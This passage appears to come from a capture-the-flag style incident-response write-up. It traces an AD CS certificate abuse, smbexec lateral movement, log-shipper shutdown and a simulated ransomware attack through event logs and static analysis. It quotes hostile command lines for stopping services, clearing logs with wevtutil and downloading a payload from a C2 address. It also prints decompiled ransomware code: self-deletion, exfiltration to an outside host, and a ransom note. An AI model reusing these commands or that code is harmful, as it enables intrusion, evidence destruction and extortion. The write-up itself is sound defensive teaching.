- ESC6: CA-wide flag (`EDITF_ATTRIBUTESUBJECTALTNAME2`) lets any requester specify an arbitrary SAN regardless of template restrictions.
- ESC8: CA's web enrollment endpoint accepts NTLM authentication, enabling NTLM relay attacks to request certificates as a relayed victim.
- ESC9/ESC10: Newer variants involving disabled security extensions (`szOID_NTDS_CA_SECURITY_EXT`) or weak certificate mapping, letting a cert tied to one account map onto a different one.
- ESC11: CA's RPC enrollment interface lacks NTLM relay protection (Encryption flag disabled), parallel to ESC8 but over RPC instead of HTTP.

**Detection opportunities**

- Event ID 4886/4887 on the CA: review issued certificates for SAN/Subject mismatches, unexpected templates, or requests from low-privileged accounts.
- Periodic audit of template ACLs and flags via tools like Certipy or PSPKIAudit, looking for enrollee-supplied-subject, weak EKU, or permissive enrollment rights.
- CA configuration audit for `EDITF_ATTRIBUTESUBJECTALTNAME2` and NTLM-relay-permitting endpoints (web enrollment, RPC).

**Mitigations**

- Disable enrollee-supplied subject on templates unless explicitly required, and restrict EKUs to the minimum necessary.
- Tighten template and CA-level ACLs to least privilege.
- Disable NTLM on CA web enrollment and RPC interfaces; require Extended Protection for Authentication (EPA) or channel binding.
- Regularly audit AD CS configuration against known ESC checklists, since new variants continue to be discovered.

**Related ATT&CK techniques**

- T1649 — Steal or Forge Authentication Certificates
- T1484.001 — Domain or Tenant Policy Modification: Group Policy Modification (where template/ACL changes are pushed via GPO)
- T1207 — Rogue Domain Controller (in cases where forged certs enable DCSync-equivalent access)

**Q18**- At what timestamp did the attacker first authenticate as the impersonated account using the certificate?

Answer: `2026-03-22 19:47`

Reason: Event ID 4768 (Kerberos Authentication Ticket Request, Ticket Granting Ticket/TGT) with a populated `CertIssuerName` field is the tell-tale sign of Public Key Cryptography for Initial Authentication (PKINIT), proving the logon used a certificate rather than a password. The first such event shows `CertIssuerName: Maromalix-DC01-CA` issuing a TGT for `TargetUserName: mohamed.elfeky` at `19:47:17.952` on `2026-03-22`, roughly 22 seconds after the certificate was issued earlier. This confirms the attacker successfully completed the ESC1 chain by authenticating as the impersonated, presumably higher-privileged `mohamed.elfeky` account using the fraudulently issued certificate.

```sql
event.code: 4768 and winlog.event_data.CertIssuerName: *
```


# Lateral Movement

**Q19**- Using the newly compromised account, the attacker authenticated to four machines almost simultaneously. Provide all four Logon IDs from these authentication events, listed in the order they occurred.

Answer: `0x31e05ca`, `0x26329b2`, `0x102c1cc0`, `0x39ffeda`

Reason: Filtering Event ID 4624 (account logon) for `winlog.event_data.TargetUserName.keyword: "mohamed.elfeky"` revealed four logon events landing within roughly 35 seconds of each other across all four hosts in the environment. This confirms the attacker used the certificate-impersonated `mohamed.elfeky` account to authenticate to `WKSTN-01`, `WKSTN-02`, `WKSTN-03`, and `DC01` in rapid succession, consistent with an automated or scripted lateral movement sweep rather than manual, one-at-a-time access. This activity maps to MITRE ATT&CK T1078 (Valid Accounts) and T1021 (Remote Services). A quick reminder about the full Kerberos authentication flow in this context:

1. AS-REQ/AS-REP (Event ID 4768): the client authenticates to the Key Distribution Center (KDC, the Domain Controller) and receives a Ticket Granting Ticket (TGT), proof of identity for subsequent requests.
2. TGS-REQ/TGS-REP (Event ID 4769): the client presents that TGT back to the KDC and requests a service ticket for a specific target resource or host, requesting access to that specific thing.
3. Actual logon (Event ID 4624): the client presents that service ticket directly to the target machine itself, not the Domain Controller (DC), which validates it and creates the actual logon session. This event is logged on the destination machine rather than the DC, and it is the one that actually represents the attacker being authenticated on that host. This sequence maps to MITRE ATT&CK T1558 (Steal or Forge Kerberos Tickets) when the TGT itself is fraudulently obtained, as in this incident's certificate-based impersonation.

```sql
event.code: 4624 and winlog.event_data.TargetUserName.keyword:"mohamed.elfeky"

Order of authentication (by timestamp):
1. WKSTN-01.maromalix.corp - 19:50:59.511 - Logon ID 0x31e05ca
2. WKSTN-02.maromalix.corp - 19:51:17.588 - Logon ID 0x26329b2
3. WKSTN-03.maromalix.corp - 19:51:25.664 - Logon ID 0x102c1cc0
4. DC01.maromalix.corp      - 19:51:34.579 - Logon ID 0x39ffeda
```


**Q20**- Across those four sessions, the attacker executed commands remotely by repeatedly creating and deleting a short-lived service with a very distinctive command-line pattern. Based on that pattern, what tool was used?

Answer: `smbexec.py`

Reason: Pivoting on the attacker's `mohamed.elfeky` Logon ID identified earlier (`0x39ffeda` on `DC01`), Event ID 4697 ("A service was installed in the system") confirmed the exact same fingerprint repeating across all four compromised hosts. A randomly named, short-lived service (`SDotzfbZ`) had a Service File Name that ran a `%COMSPEC%`-wrapped batch script, which wrote its output to a `__output_<random>` file on the target's own `C$` administrative share, then immediately deleted the batch file after execution. This create/run/delete cycle, with no dropped persistent binary, combined with the distinctive `__output_` naming convention, is the well-documented signature of Impacket's `smbexec.py`, a "service-less" remote command execution tool, distinct from `psexec.py`'s approach of dropping an actual service executable. This activity maps to MITRE ATT&CK T1021.002 (Remote Services: SMB/Windows Admin Shares) and T1569.002 (System Services: Service Execution).

```powershell
winlog.event_data.SubjectLogonId.keyword:"0x39ffeda" and event.action.keyword:"service-installed" 
```


**Q21**- Search the SigmaHQ repository on GitHub — which detection rule detects this tool's activity?

Answer: `win_system_hack_smbexec`

Reason: Searching the SigmaHQ repository (`rules/windows/builtin/system/service_control_manager/`) for rules targeting service-installation-based detection surfaces `win_system_hack_smbexec` (`smbexec.py` Service Installation, ID `52a85084-6989-40c3-8f32-091e12e13f09`), authored by Omer Faruk Celik and first published `2018-03-20`. This is a community-maintained rule that detects the exact Service Installation pattern, Event ID 4697/7045 with the `%COMSPEC%`/`__output_`/batch-relay signature, walked through manually in the prior analysis, confirming this is a well-known, long-documented detection opportunity rather than a novel technique.

Reference: [https://github.com/SigmaHQ/sigma/blob/dd976856e7e0deaef39eb609dbf0391e95c60ea7/rules/windows/builtin/system/service_control_manager/win_system_hack_smbexec.yml#L4](https://github.com/SigmaHQ/sigma/blob/dd976856e7e0deaef39eb609dbf0391e95c60ea7/rules/windows/builtin/system/service_control_manager/win_system_hack_smbexec.yml#L4)

# Defense Evasion

**Q22**- To prevent the SIEM from receiving further logs, the attacker began stopping log shipping services across all hosts. At what timestamp was the first service stopped?

Answer: `2026-03-22 19:52`

Reason: The same `smbexec.py` short-lived-service pattern reused to remotely execute `sc stop "filebeat"` on `WKSTN-01`, with the full lifecycle visible across four log entries: Service Control Manager (SCM) install, registry `ImagePath` write, Security Event 4697, and actual process execution. This confirms the attacker's first log-shipping disruption command ran at `19:52:00.077` on `2026-03-22`, roughly 25 seconds after gaining lateral access to that host. This shows the attacker moved immediately from establishing access to blinding the Security Information and Event Management (SIEM) pipeline, rather than performing further reconnaissance first. This activity maps to MITRE ATT&CK T1489 (Service Stop) and T1562.001 (Impair Defenses: Disable or Modify Tools). Sequence:

1. 19:51:59.763 — raw Service Control Manager log: "A service was installed" (the lowest-level OS event, SCM provider itself).
2. 19:51:59.763 — Sysmon Registry value set on HKLM\...\Services\ZRXzqmZx\ImagePath — SCM writing the service's command into the registry (this is how a Windows service "knows" what to run).
3. 19:51:59.778 — Security Auditing Event 4697 (service installed) — the audit-trail confirmation of the same installation, just logged via a different channel/provider with a tiny delay.
4. 19:52:00.077 — the actual process creation (cmd.exe spawned by services.exe) — this is where the service actually starts and the sc stop "filebeat" command genuinely executes, roughly 300ms after installation, consistent with the OS needing a moment to register and launch the new service before it runs.


```powershell
message: "A new process has been created.

Creator Subject:
	Security ID:		S-1-5-18
	Account Name:		WKSTN-01$
	Account Domain:		MAROMALIX
	Logon ID:		0x3E7

Target Subject:
	Security ID:		S-1-0-0
	Account Name:		-
	Account Domain:		-
	Logon ID:		0x0

Process Information:
	New Process ID:		0x17d0
	New Process Name:	C:\Windows\System32\cmd.exe
	Token Elevation Type:	%%1936
	Mandatory Label:		S-1-16-16384
	Creator Process ID:	0x234
	Creator Process Name:	C:\Windows\System32\services.exe
	Process Command Line:	C:\Windows\system32\cmd.exe /Q /c echo sc stop \"filebeat\" ^> \\WKSTN-01\C$\__output_lSJVTwsv 2^>^&1 > C:\Windows\MhHYTCfi.bat & C:\Windows\system32\cmd.exe /Q /c C:\Windows\MhHYTCfi.bat & del C:\Windows\MhHYTCfi.bat
```

**Q23**- What service did the attacker stop that caused a complete gap in logs reaching the SIEM?

Answer: `winlogbeat`

Reason: Following the same `smbexec.py` short-lived-service pattern used to stop `filebeat`, the attacker installed a second service (`hOkPRAlo`) whose Service File Name explicitly runs `sc stop "winlogbeat"`. This confirms the deliberate, targeted shutdown of the specific Beat responsible for forwarding all Windows Event Log channels (Security Auditing, Sysmon, System, PowerShell) to Elastic. This explains why this is the service that caused a complete logging blackout rather than just a partial gap, since `filebeat` alone only ships file-based logs, separate from the Windows Event Log telemetry this entire investigation has relied on. This activity maps to MITRE ATT&CK T1489 (Service Stop) and T1562.001 (Impair Defenses: Disable or Modify Tools).

```powershell
    "_source": {
        "@timestamp": "2026-03-22T19:52:46.218Z",
        "event": {
            "created": "2026-03-22T19:52:46.609Z",
            "code": "7045",
            "kind": "event",
            "provider": "Service Control Manager"
        },
        "log": {
            "level": "information"
        },
        "message": "A service was installed in the system.\n\nService Name:  hOkPRAlo\nService File Name:  %COMSPEC% /Q /c echo sc stop \"winlogbeat\" ^> \\\\%COMPUTERNAME%\\C$\\__output_lnfHXnCg 2^>^&1 > %SYSTEMROOT%\\sMHtYvSF.bat & %COMSPEC% /Q /c %SYSTEMROOT%\\sMHtYvSF.bat & del %SYSTEMROOT%\\sMHtYvSF.bat\nService Type:  user mode service\nService Start Type:  demand start\nService Account:  LocalSystem",
        "host": {
            "name": "WKSTN-03.maromalix.corp"
        }
```

**Q24**- Before restarting the shipping services, the attacker cleared the Windows event logs to destroy evidence of what happened during the blind window. At what timestamp was the first log cleared?

Answer: `2026-03-22 20:02`

Reason: Once log shipping was disabled (Q23) and the SIEM blind window opened, the attacker reused the same [smbexec.py](http://smbexec.py/) short-lived-service technique one final time — but this time executing wevtutil cl Security (the native Windows utility for clearing an entire event log channel) against DC01, captured via Sysmon Event ID 1 showing the actual cmd.exe execution at 2026-03-22 20:02:50.306, with the ParentCommandLine confirming the now-familiar echo wevtutil cl Security ^> ... __output_KlvLRIGF relay pattern — meaning the attacker spent roughly 10 minutes (19:52–20:02) operating with log shipping disabled before beginning the actual evidence-destruction phase, clearing the Security log channel first on the Domain Controller.

```powershell
"wevtutil"

UtcTime: 2026-03-22 20:02:50.306
ProcessGuid: {1B56A5D2-4AEA-69C0-331D-000000009E03}
ProcessId: 2264
Image: C:\Windows\System32\cmd.exe
FileVersion: 10.0.14393.0 (rs1_release.160715-1616)
Description: Windows Command Processor
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: Cmd.Exe
CommandLine: C:\Windows\system32\cmd.exe  /Q /c C:\Windows\ohHhxSGe.bat 
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {1B56A5D2-719F-69BF-E703-000000000000}
LogonId: 0x3E7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=99AE9C73E9BEE6F9C76D6F4093A9882DF06832CF,MD5=F4F684066175B77E0C3A000549D2922C,SHA256=935C1861DF1F4018D698E8B65ABFA02D7E9037D8F68CA3C2065B6CA165D44AD2,IMPHASH=3062ED732D4B25D1C64F084DAC97D37A
ParentProcessGuid: {1B56A5D2-4AEA-69C0-321D-000000009E03}
ParentProcessId: 4880
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: C:\Windows\system32\cmd.exe /Q /c echo wevtutil cl Security ^> \\DC01\C$\__output_KlvLRIGF 2^>^&1 > C:\Windows\ohHhxSGe.bat & C:\Windows\system32\cmd.exe /Q /c C:\Windows\ohHhxSGe.bat & del C:\Windows\ohHhxSGe.bat
```

## Smbexec Batch File Relay via Escaped Redirection Execution Style

Impacket's `smbexec.py` achieves remote command execution without dropping a persistent executable on disk, by chaining three sequential steps inside a single `cmd.exe` instance. The first step writes a disposable batch file using escaped redirection characters so they survive as literal text rather than executing immediately. The second step launches a brand-new child `cmd.exe` process specifically to run that batch file, which is where the actual command executes and its output gets relayed to the target's own administrative share. The third step deletes the batch file once execution completes, minimizing on-disk artifacts.

**Components**

- Parent `cmd.exe` (the `smbexec`spawned shell, identified by `ParentProcessGuid`)
- `echo` redirection with escaped carets (`^>`, `^&`) to write a literal command string into a new batch file rather than executing it
- A randomly named batch file in `C:\Windows\` (e.g. `ohHhxSGe.bat`)
- A second, distinct `cmd.exe /Q /c` invocation that actually runs the batch file
- A relay output file written to the target's own `C$` administrative share (e.g. `\\DC01\C$\__output_KlvLRIGF`)
- A final `del` command targeting the same batch file for self-cleanup

**Mechanics**

1. The parent `cmd.exe` runs an `echo` command containing escaped redirection operators, writing the literal text of the intended command (with its real `>` and `2>&1` operators preserved as text) into a new `.bat` file. Nothing executes at this stage; this is file creation only.
2. The parent shell invokes `& C:\Windows\system32\cmd.exe /Q /c <batchfile>`, launching a fresh, distinct `cmd.exe` process. Since this is a new process invocation rather than a continuation of the same shell, Sysmon Event ID 1 logs it as a separate child process with `ParentImage`/`ParentProcessGuid` pointing back to the original shell. The actual target command executes inside this child process, with its output redirected to the `__output_<random>` relay file on the target's own share.
3. Once the child process completes, the parent shell deletes the now-unneeded batch file with `del`, removing the on-disk evidence of the command that was run.

```bash
echo wevtutil cl Security ^> \\DC01\C$\__output_KlvLRIGF 2^>^&1 > C:\Windows\ohHhxSGe.bat & C:\Windows\system32\cmd.exe /Q /c C:\Windows\ohHhxSGe.bat & del C:\Windows\ohHhxSGe.bat
```

**Q25**- How many minutes elapsed between the log shippers being stopped and them being restarted?

Answer: 11

Reason: Filtering for the `sc start "winlogbeat"` command using the same `smbexec.py` service-installation pattern as its stop counterpart shows the attacker restarted log shipping at `20:03:40.353` on `2026-03-22`, compared to the stop command found earlier at `19:52:36.168`, a gap of approximately 11 minutes and 4 seconds. During this window, the attacker conducted lateral movement consolidation and, as shown earlier, began clearing event logs (`wevtutil cl Security` at `20:02:50`) just before restoring visibility, leaving a deliberate blind window precisely long enough to cover their evidence-destruction activity. This activity maps to MITRE ATT&CK T1070.001 (Indicator Removal: Clear Windows Event Logs) and T1562.001 (Impair Defenses: Disable or Modify Tools).

```powershell
"sc stop" and "winlogbeat" and event.action.keyword:"created-process"
winlogbeat stopped: 2026-03-22 19:52:36.168

"sc start" and "winlogbeat" and event.action.keyword:"created-process" 
winlogbeat restarted: 2026-03-22 20:03:40.353
```

# Impact

**Q26**- During the logging gap, the attacker deployed ransomware across the targeted machines using the same method and the same binary path on each host. What is the full path of the ransomware binary dropped?

Answer: `c:\windows\temp\missme.exe`

Reason: The attacker used `powershell -c iwr -Uri 'hxxp://3[.]75[.]76[.]243:4422/Missme.exe' -OutFile 'C:\Windows\Temp\Missme.exe'` to download and stage the payload, a new command-and-control (C2)/staging IP (`3.75.76.243`, port `4422`) distinct from the Cobalt Strike C2 (`35.158.162.78`) seen earlier. This is corroborated independently by `DC01`'s `UsnJrnl` showing `Missme.exe` created under `C:\Windows\Temp\` at `19:59:41`, and Windows Defender's own detection log flagging it as `Trojan:MSIL/Lazy.BAC!MTB` at `19:55:48.782` and placing it in Quarantine. This notably suggests Defender may have actually blocked execution on at least this host, which is worth keeping in mind when assessing how widely the ransomware actually succeeded across all four machines. This activity maps to MITRE ATT&CK T1105 (Ingress Tool Transfer).


**Q27**- What file extension was appended to the encrypted files?

Answer: `.94ccaa`

Reason: With Elastic having zero visibility into this window due to the `winlogbeat` blackout, `DC01`'s USN Journal was the only available evidence source. It showed 37 `FileCreate` events for files renamed with a consistent `.94ccaa` suffix appended to their original filenames (e.g., `Wallpaper_light.png.94ccaa`, `Quick_Commands_Ref.txt.94ccaa`), all created within the same second (`20:00:11`). This confirms rapid, automated mass-encryption rather than manual file-by-file action, consistent with MITRE ATT&CK T1486 (Data Encrypted for Impact).


**Q28**- How many files were encrypted on WKSTN-01?

Answer: 40

Reason: Unlike `DC01`, where overwritten Master File Table (MFT) slots forced reliance on the USN Journal earlier, `WKSTN-01`'s `$MFT` is intact and current, so filtering directly for the `.94ccaa` extension gives a reliable, authoritative count: 40 files, spanning multiple user profiles (`Administrator`, `mohamed.elfeky`) and file types (`.png`, `.docx`, `.txt`), all timestamped within the same second (`20:00:10` on `2026-03-22`). This confirms the same rapid, automated mass-encryption behavior observed on `DC01`, consistent with MITRE ATT&CK T1486 (Data Encrypted for Impact).


**Q29**- On which machine did the ransomware deployment fail?

Answer: `WKSTN-03`

Reason: Windows Defender's Real-Time Protection on `WKSTN-03` detected and quarantined `C:\Windows\Temp\Missme.exe` as `Trojan:MSIL/Lazy.BAC!MTB` at `19:56:38.860` on `2026-03-22`, just before the mass-encryption event at approximately `20:00:11` seen on the other hosts. This means Defender successfully blocked the ransomware binary on this host before it could execute and encrypt files, making `WKSTN-03` the one machine in the environment where the deployment failed.

```powershell
"missme.exe" and event.provider.keyword:"Microsoft-Windows-Windows Defender"
```

```powershell
"'@timestamp"	"agent.hostname"	message
"Mar 22, 2026 @ 19:56:38.860"	"WKSTN-03"	"Microsoft Defender Antivirus has taken action to protect this machine from malware or other potentially unwanted software.
 For more information please see the following:
https://go.microsoft.com/fwlink/?linkid=37020&name=Trojan:MSIL/Lazy.BAC!MTB&threatid=2147963512&enterprise=0
 	Name: Trojan:MSIL/Lazy.BAC!MTB
 	ID: 2147963512
 	Severity: Severe
 	Category: Trojan
 	Path: file:_C:\Windows\Temp\Missme.exe
 	Detection Origin: Local machine
 	Detection Type: Concrete
 	Detection Source: Real-Time Protection
 	User: NT AUTHORITY\SYSTEM
 	Process Name: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 	Action: Quarantine
 	Action Status:  No additional actions required
 	Error Code: 0x00000000
 	Error description: The operation completed successfully. 
 	Security intelligence Version: AV: 1.445.695.0, AS: 1.445.695.0, NIS: 1.445.695.0
 	Engine Version: AM: 1.1.26010.1, NIS: 1.1.26010.1"
```

**Q30**- Windows Defender detected the ransomware on that machine and took action. What threat label did Defender assign to the binary, and what action did it take?

Answer: `Trojan:MSIL/Lazy.BAC!MTB`, `Quarantine`

Reason: Already captured in the same Defender detection event identified earlier on `WKSTN-03`, Microsoft Defender assigned the threat label `Trojan:MSIL/Lazy.BAC!MTB` (`Severity: Severe`, `Category: Trojan`) and took the action `Quarantine`, successfully neutralizing `C:\Windows\Temp\Missme.exe` via Real-Time Protection before it could execute and join the other three hosts in the mass-encryption event.

**Q31**- Using ` defender-dump.py` script recover and start your static analysis on the ransomware binary. The ransomware attempts to hide its tracks, remove evidence of its execution, and delete itself. What is the hardcoded command it uses to do this?

Answer: `ping 127.0.0.1 -n 10 > nul & del /f /q \"C:\\Windows\\Prefetch\\MISSME*\" & del /f /q \"{0}\”`

Reason: Since Defender quarantined `Missme.exe` on `WKSTN-03` before it could execute, the actual binary first had to be recovered from Defender's obfuscated quarantine storage using `defender-dump.py`, pointed at the artifact tree's emulated drive root (`uploads\auto\C%3A`) rather than a specific `Entries\{GUID}` subfolder directly, since the tool expects to locate and enumerate the `ProgramData\Microsoft\Windows Defender\Quarantine` structure itself. Once the decrypted sample was extracted, Detect It Easy confirmed it as a .NET/Microsoft Intermediate Language (MSIL) binary (Common Language Runtime, CLR, v4.0.30319), making `dnSpy` the correct decompilation tool. Navigating the `RansomHub` namespace into its `Program` class revealed a `SelfDelete()` method that spawns a hidden `cmd.exe` process running a ping-as-sleep delay, since `cmd.exe` has no native sleep command, so pinging localhost 10 times burns the approximately 9-10 seconds needed for the original process to fully exit, followed by deletion of its own Prefetch entry and finally its own executable file. This is a clean, self-contained anti-forensics routine requiring no external tooling, mapping to MITRE ATT&CK T1070.004 (Indicator Removal: File Deletion) and T1070.009 (Indicator Removal: Clear Persistence).

```powershell
PS C:\Users\Administrator\Desktop\Start Here\Tools\Miscellaneous> python .\defender-dump.py -d "C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-03\uploads\auto\C%3A"
C:\Users\Administrator\Desktop\Start Here\Tools\Miscellaneous\defender-dump.py:175: SyntaxWarning: invalid escape sequence '\)'
  help='root directory where Defender is installed (example C:\)'
Exporting Missme.exe
File 'quarantine.tar' successfully created
```


```csharp
// RansomHub.Program
// Token: 0x06000006 RID: 6 RVA: 0x0000231C File Offset: 0x0000051C
private static void SelfDelete()
{
	string location = Assembly.GetExecutingAssembly().Location;
	string arguments = string.Format("/c ping 127.0.0.1 -n 10 > nul & del /f /q \"C:\\Windows\\Prefetch\\MISSME*\" & del /f /q \"{0}\"", location);
	Process.Start(new ProcessStartInfo
	{
		FileName = "cmd.exe",
		Arguments = arguments,
		WindowStyle = ProcessWindowStyle.Hidden,
		CreateNoWindow = true
	});
}
```

**Q32**- The ransomware implements a double extortion strategy — it stages and exfiltrates copies of victim files before encrypting them. What is the full URL the ransomware uploads the staged data to?

Answer: `hxxp://35.158.162.78:8080/upload`

Reason: The `ExfilZip()` method reads the staged archive (`Program.StageZip`) into memory and uploads it via `WebClient.UploadData()` to `hxxp://35[.]158[.]162[.]78:8080/upload`, tagging the upload with an `X-Victim: <Environment.MachineName>` header so the operators can identify which compromised host each exfiltrated archive came from. This notably reuses the same IP as the original Cobalt Strike C2 identified earlier, just on a different port (`8080` versus `443`), confirming the attacker consolidated their exfiltration and C2 infrastructure on shared hosting rather than standing up separate servers. The method's `finally` block deletes the staged zip locally regardless of whether the upload succeeded or failed, minimizing the forensic footprint of the exfiltration attempt either way. This activity maps to MITRE ATT&CK T1567 (Exfiltration Over Web Service) and T1029 (Scheduled Transfer) adjacent staging behavior.

```csharp
// RansomHub.Program
// Token: 0x06000003 RID: 3 RVA: 0x00002148 File Offset: 0x00000348
private static void ExfilZip()
{
	try
	{
		byte[] data = File.ReadAllBytes(Program.StageZip);
		using (WebClient webClient = new WebClient())
		{
			webClient.Headers.Add("X-Victim", Environment.MachineName);
			webClient.Headers.Add("Content-Type", "application/octet-stream");
			webClient.UploadData("http://35.158.162.78:8080/upload", data);
		}
	}
	catch
	{
	}
	finally
	{
		try
		{
			File.Delete(Program.StageZip);
		}
		catch
		{
		}
	}
}
```

**Q33**- What is the .onion address found in the ransom note where victims are directed to negotiate?

Answer: `hxxp://ransomhubn3snwif3ixzs7hdpsnpfiqzqyqbgzgkiodglqwrj7jk5cqd.onion`

Reason: The `BuildNote()` method constructs the full ransom note text dynamically, embedding the victim's unique `victimId` and the dynamically referenced `Program.FileExt` (the `.94ccaa` extension identified earlier), confirming the same string-building logic ties together earlier findings. The note explicitly directs victims to negotiate via `hxxp://ransomhubn3snwif3ixzs7hdpsnpfiqzqyqbgzgkiodglqwrj7jk5cqd[.]onion`, alongside a 90-hour deadline before threatened public leak/sale of the exfiltrated data, consistent with the double-extortion model confirmed earlier, and standard "don't rename files," "don't use third-party tools," and "don't contact law enforcement" pressure tactics. This activity maps to MITRE ATT&CK T1657 (Financial Theft) and T1486 (Data Encrypted for Impact).

```csharp
// RansomHub.Program
// Token: 0x0600000C RID: 12 RVA: 0x000027B4 File Offset: 0x000009B4
private static string BuildNote(string victimId)
{
	return string.Concat(new string[]
	{
		"---\nWhat happened?\n\nYour network has been breached and all data encrypted.\nWe have also downloaded a significant amount of sensitive data prior to encryption, including:\n\n  - Financial records and reports\n  - Employee and HR data\n  - Client and customer information\n  - Internal communications and documents\n\n---\nHow to recover your data?\n\nWe are the only ones who can decrypt your files.\nThird-party tools will not work and will permanently corrupt your data.\n\nSteps to restore:\n  1. Download and install TOR Browser:  https://www.torproject.org/download/\n  2. Visit our negotiation portal:\n     http://ransomhubn3snwif3ixzs7hdpsnpfiqzqyqbgzgkiodglqwrj7jk5cqd.onion\n  3. Enter your client ID to open a session:\n\n     --> ",
		victimId,
		" <--\n\n---\nHow much time do you have?\n\nYou have 90 hours.\nAfter this deadline your data will be published on our blog and offered for sale.\n\n---\nWARNING:\n\n  - Do NOT rename or modify encrypted files (.",
		Program.FileExt,
		" extension)\n  - Do NOT use third-party decryption software\n  - Do NOT contact law enforcement or data recovery firms\n  - Do NOT restart or shut down affected systems\n\nContacting law enforcement will not help recover your data and will only\nresult in immediate publication.\n---"
	});
}
```

# Recovery

**Q34**- Trace back to the user at the origin of the attack chain. One of their encrypted files is named **`Today task.txt`**. Dump it from `mft`, decrypt it now you have obtained the key and IV from the decompiled ransom and provide its content.

Answer: `Review Q1 actuals, reconcile accounts, and forecast Q2 financials`

Reason: Tracing back through the full attack chain to the initial visit identifies `omar.hassan` on `WKSTN-01` as the origin user. Since `Today task.txt.94ccaa` is a small file, it was stored MFT-resident, meaning its data was embedded directly inside the Master File Table (MFT) record rather than on separate disk clusters. This made it recoverable by running `MFTECmd` against `WKSTN-01`'s `$MFT` with resident-data extraction enabled and locating that entry under `omar.hassan`'s profile.

The decryption key material came from statically analyzing the recovered `Missme.exe` ransomware binary (`RansomHub.Program` class) in `dnSpy`, where the `EncryptBytes()` method revealed hardcoded Advanced Encryption Standard 256-bit (AES-256) parameters (`CipherMode.CBC`, `PaddingMode.PKCS7`) assigned from two static readonly byte arrays (`AesKey`, `AesIV`). Both were fixed and identical across every victim file rather than derived per-victim, meaning a single recovered key/initialization vector (IV) pair decrypts everything the ransomware touched. Applying those values via .NET's `AesManaged`/`CryptoStream` decryption, using PowerShell since `openssl` was not available on the Windows triage virtual machine (VM), against the recovered resident bytes successfully revealed the file's original plaintext content. This is a significant implementation flaw, since a hardcoded, static key/IV pair undermines the ransomware's own cryptographic design and enables full-environment decryption without paying any ransom.

```powershell
PS C:\Users\Administrator\Desktop\Start Here\Tools\ZimmermanTools\net6> .\MFTECmd.exe --dr -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-01\uploads\ntfs\%5C%5C.%5CC%3A\`$MFT" --csv 'C:\Users\
Administrator\Desktop\Start Here'
MFTECmd version 1.2.2.1

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/MFTECmd

Command line: --dr -f C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-01\uploads\ntfs\%5C%5C.%5CC%3A\$MFT --csv C:\Users\Administrator\Desktop\Start Here

File type: Mft

Processed C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-01\uploads\ntfs\%5C%5C.%5CC%3A\$MFT in 5.2031 seconds

C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-01\uploads\ntfs\%5C%5C.%5CC%3A\$MFT: FILE records found: 358,999 (Free records: 1,514) File size: 352.2MB
        CSV output will be saved to C:\Users\Administrator\Desktop\Start Here\20260624015033_MFTECmd_$MFT_Output.csv
        Resident data will be saved to C:\Users\Administrator\Desktop\Start Here\Resident
```

```csharp
// Obtaining AES key from Program class
using System;
using System.Diagnostics;
using System.IO;
using System.IO.Compression;
using System.Net;
using System.Reflection;
using System.Security.Cryptography;
using System.Text;
using System.Threading;

namespace RansomHub
{
	// Token: 0x02000002 RID: 2
	internal class Program
	{
		// Token: 0x06000001 RID: 1 RVA: 0x00002050 File Offset: 0x00000250
		private static void StageFile(string filePath)
		{...
		SNIP...
		
		// Token: 0x04000002 RID: 2
		private static readonly byte[] AesKey = new byte[]
		{
			63,
			138,
			44,
			29,
			123,
			78,
			159,
			106,
			12,
			93,
			46,
			139,
			31,
			58,
			124,
			78,
			209,
			163,
			245,
			11,
			108,
			158,
			45,
			79,
			138,
			27,
			124,
			62,
			93,
			159,
			42,
			107
		};
		
// IV
// Token: 0x04000003 RID: 3
		private static readonly byte[] AesIV = new byte[]
		{
			155,
			79,
			42,
			124,
			30,
			61,
			143,
			91,
			162,
			110,
			12,
			212,
			63,
			122,
			27,
			142
		};

```

## Ransomware Decryption Script

```powershell
$key = [byte[]](63,138,44,29,123,78,159,106,12,93,46,139,31,58,124,78,209,163,245,11,108,158,45,79,138,27,124,62,93,159,42,107)
$iv = [byte[]](155,79,42,124,30,61,143,91,162,110,12,212,63,122,27,142)
$data = [System.IO.File]::ReadAllBytes("Today task.txt.94ccaa")
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key; $aes.IV = $iv; $aes.Mode = 'CBC'; $aes.Padding = 'PKCS7'
$dec = $aes.CreateDecryptor()
$out = $dec.TransformFinalBlock($data, 0, $data.Length)
[System.Text.Encoding]::UTF8.GetString($out)
Review Q1 actuals, reconcile accounts, and forecast Q2 financials
PS C:\Users\Administrator\Desktop\Start Here\Tools>
```

```powershell
# Or, if using Linux
openssl enc -aes-256-cbc -d -K 3f8a2c1d7b4e9f6a0c5d2e8b1f3a7c4ed1a3f50b6c9e2d4f8a1b7c3e5d9f2a6b -iv 9b4f2a7c1e3d8f5ba26e0cd43f7a1b8e -in "Today task.txt.94ccaa" -out decrypted_today_task.txt
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2026-03-22 14:28 | Initial Access | omar.hassan visits compromised page https://maromalix.cloud/ on WKSTN-01 | T1189 |
| 2026-03-22 14:28:44 | Execution | Caret-obfuscated nslookup command executed via cmd.exe, querying rogue DNS server 3.77.33.191 | T1027.010, T1059.003 |
| 2026-03-22 14:28:44 | Defense Evasion | Payload smuggled in forged DNS resource record Name field | T1071.004 |
| 2026-03-22 14:28:44 | Execution | powershell -nop -w hidden -c IEX(...) downloads/executes Cobalt Strike stager from 35.158.162.78 | T1059.001, T1105 |
| 2026-03-22 14:28:44 | C2 | Cobalt Strike Beacon reflectively loaded in powershell.exe memory; HTTPS C2 to 35.158.162.78:443/updates | T1071.001, T1055 |
| 2026-03-22 18:49:48 | Persistence | HKCU Run\Update key re-runs the original stager on every logon | T1547.001 |
| 2026-03-22 18:52:31 | Discovery | SharpHound.exe (renamed QA.exe) runs full AD/ADCS enumeration, output to C:\Users\omar.hassan\Q2_review | T1087, T1482 |
